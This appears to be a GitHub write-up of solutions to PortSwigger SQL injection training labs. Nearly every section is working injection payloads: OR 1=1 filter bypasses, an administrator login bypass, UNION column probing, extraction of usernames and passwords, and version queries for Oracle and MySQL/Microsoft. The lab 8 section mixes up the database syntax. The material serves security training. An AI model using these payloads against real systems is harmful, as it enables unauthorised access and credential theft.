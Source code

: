 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can say the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`


<h3>- Examining the database in SQL injection attacks</h3>

[7.Lab: SQL injection attack, querying the database type and version on Oracle]()
 
1. *Solutions*

   On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL 

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the first and second columns have string values.
   to retrieve the version of the database, for Oracle we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):

   * SELECT banner FROM v$version
   * SELECT version FROM v$instance
   
   the payload will be like:
   
   `'+UNION+SELECT+banner,NULL+FROM+v$version--`
   
   `'+UNION+SELECT+version,NULL+FROM+v$instance--`
   
[8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) 

 1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL#` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL#` we can say the first and second columns have string values.
   Now to retrieve data from only one column we can use the following payload
   to retrieve the version of the database, for Microsoft DB we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):
   
   Microsoft	SELECT @@version
   
   the payload will be like:
   
   `'+UNION+SELECT+@@version,NULL+FROM+DUAL#`
   `'+UNION+SELECT+NULL,@@version+FROM+DUAL#`
   
   
   
   
